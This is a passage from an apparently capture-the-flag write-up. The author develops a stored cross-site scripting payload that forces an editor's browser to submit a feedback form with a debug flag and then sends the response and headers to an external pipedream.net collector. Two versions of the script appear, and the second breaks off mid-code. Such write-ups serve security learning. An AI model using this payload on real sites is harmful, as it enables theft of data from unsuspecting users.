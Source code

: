 Editor can send the feedback about the article to the user. Let's try sending the feedback to ourselves (in my case, login is `kokokoko`).

```
<script>

    let req = new XMLHttpRequest();
    req.open("POST", "http://zad38-2022-final:5000/send_feedback");
    // "Populate" the form
    req.send("receiver=kokokoko&content=abc&debug=on");

    setTimeout(() => {

        const data = { 
            content: req.response, 
            resp_headers: req.getAllResponseHeaders(), 
            location: document.location 
        };

        fetch('https://eozy3pwhxz589s.m.pipedream.net', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json',
            },
            body: JSON.stringify(data),
        });

    }, "1000");

</script>
```
And... nothing happens. The only thing that changed is editor receiving info about delivering the feedback:
```
<div class="alert alert-primary" role="alert">Wysłano informację zwrotną</div>
```
But our user doesn't receive any feedback. I've been stuck here for a couple of hours, trying to find the feedback in the database (using SQL injection vulnerability) or other weird places.      
  
Finally, I've found the solution. We are missing the `Content-Type` header in our request. This header is automagically set with a corresponding value by browser when hitting `SUBMIT` in the form. So here is the final version of the malicious script.

```
<script>

    let req = new XMLHttpRequest();
    req.open("POST", "http://zad38-2022-final:5000/send_feedback");
    // Add missing header
    req.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    // "Populate" the form
    req.send("receiver=kokokoko&content=abc&debug=on");

    setTimeout(() => {

        const data = { 
            content: req.response, 
            resp_headers: req.getAllResponseHeaders(), 
            location: document.location 
        };

        fetch('https://eozy3pwhxz589s.m.pipedream.net', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json',
            },
```